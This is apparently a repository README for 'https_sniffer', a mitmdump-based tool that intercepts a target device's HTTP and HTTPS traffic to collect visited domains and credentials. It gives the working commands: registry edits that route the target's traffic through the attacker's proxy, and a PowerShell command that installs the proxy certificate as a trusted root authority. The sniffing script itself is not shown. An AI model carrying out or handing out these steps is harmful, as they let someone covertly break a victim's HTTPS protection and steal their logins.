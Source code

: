 # https_sniffer

<p align="center">
    <img width="700"
        src="images/001.png"
        alt="Main Banner"
        style="float: left; margin-right: 10px;">
</p>

**HTTPS Sniffer** is a tool that captures **HTTP** and **HTTPS** traffic from a target device using a proxy server powered by **mitmdump**, part of the **mitmproxy** toolkit. Root privileges on the target device are required.

With this tool, you can capture all visited domains and potentially exposed credentials.

<p align="center">
    <img width="700"
        src="images/002.png"
        alt="Tool excecution Example"
        style="float: left; margin-right: 10px;">
</p>

## Table of contents

- [First stepts](#what-do-i-need-to-run-it)
    - [Required on your device](#setup-required-for-your-device)
    - [Required on target device](#steps-to-configure-target-device)
- [Usage](#how-does-it-work?)

## What do I need to run it?

### Setup required for your device

1. First, clone the repository:

    ```git
    git clone https://github.com/sammy-ulfh/https_sniffer.git
    ```

2. Then, navigate to the **https_sniffer/script** directory.

3. Next, download mitmproxy tool from [mitmproxy.org](https://mitmproxy.org/).


### Steps to configure target device

1. First, run **mitmproxy** on your sniffing device.

2. Second, enable proxy settings:<br/>

    Set **ProxyEnable** registry key to 1.<br/>
    This key is located at:

    ```
    "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings"
    ```
    
    You can update its value from the terminal using the following command:

    ```CMD
    reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f
    ```

3. Third, set the proxy server adderss:<br/>

    Set the **ProxyServer** registry key to your proxy's IP and PORT, for example:<br/>
    "192.18.100.100:8080" -> "{YOUR IP}:{YOUR PROXY SERVER PORT}".<br/>
    This key is also located at:<br/>

    ```
    "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings"
    ```

    You can update its value from the terminal using the followind command:

    ```CMD
    reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "192.168.100.100:8080" /f
    ```

    - **/v** specifies the name of the registry value you wan to modify.
    - **/t** specifies the data type to be stored. For example, **RED_SZ** represents a string value.
    - **/d** sets the data to be stored in the specified value.
    - **/f** forces the update without pompting for confirmation if the value already exists.

4. Fourth, trust your proxy's server Certificate:<br/>

    Use the **mitmproxy.cer** located in the  **script/cert** directory and add it to the Trusted Root Certification Authorities store:<br/>

    ```POWERSHELL
    Import-Certificate -FilePath ".\mitmproxy.cer" -CerStoreLocation Cert:\LocalMachine\Root
    ```

## How does it work?

This **HTTPS Sniffer** tool allows you to capture all HTTP and HTTPS traffic from a target device, focusing on visited URL's and potential credentials.

Once you have completed all setup stepts, and you can see traffic being captured, it's time to run **mitmdump** on your capturing device usin the **https_sniffer.py** script.

    ```shell
    ./mitmdump -s https_sniffer.py --quiet
    ```

    - **-s** lets you specify a custom script for **mitmdump** to process traffic as you define.
    - **--quiet** supresses all logs, whosing only the output from your script.
